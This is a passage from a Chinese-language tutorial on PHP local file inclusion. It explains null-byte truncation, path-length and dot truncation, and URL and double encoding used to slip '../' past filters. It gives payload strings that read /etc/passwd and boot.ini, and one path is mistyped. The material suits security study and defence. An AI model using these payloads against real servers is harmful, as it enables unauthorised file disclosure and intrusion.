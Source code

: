 这段代码指定了前缀和后缀：这样就很“难”直接去包含前面提到的种种文件。

##### %00截断

能利用00截断的场景现在应该很少了

PHP内核是由C语言实现的，因此使用了C语言中的一些字符串处理函数。在连接字符串时，0字节(\x00)将作为字符串的结束符。所以在这个地方，攻击者只要在最后加入一个0字节，就能截断file变量之后的字符串。

`?file=../../../../../../../../../etc/passwd%00`

文件系统获取含有换行符的文件名，会截断为`../../../ect/passwd`

(需要 magic_quotes_gpc=off，PHP小于5.3.4有效)

##### %00截断目录遍历：

`?file=../../../../../../../../../var/www/%00`
(需要 magic_quotes_gpc=off，unix文件系统，比如FreeBSD，OpenBSD，NetBSD，Solaris)

##### 路径长度截断：

`?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.`
(php版本小于5.2.8可以成功，linux需要文件名长于4096，windows需要长于256)

利用操作系统对目录最大长度的限制，可以不需要0字节而达到截断的目的。

我们知道目录字符串，在window下256字节、linux下4096字节时会达到最大值，最大值长度之后的字符将被丢弃。
而利用”./“的方式即可构造出超长目录字符串:

##### 点号截断：

`?file=../../../../../../../../../boot.ini/………[…]…………`
(php版本小于5.2.8可以成功，只适用windows，点号需要长于256)

##### 编码绕过

服务器端常常会对于`../`等做一些过滤，可以用一些编码来进行绕过。下面这些总结来自《白帽子讲Web安全》。

- 利用url编码

  - `../`
    - `%2e%2e%2f`
    - `..%2f`
    - `%2e%2e/`
  - `..\`
    - `%2e%2e%5c`
    - `..%5c`
    - `%2e%2e\`

- 二次编码

  - `../`
    - `%252e%252e%252f`
  - `..\`
    - `%252e%252e%255c`

  ##### `~`绕过
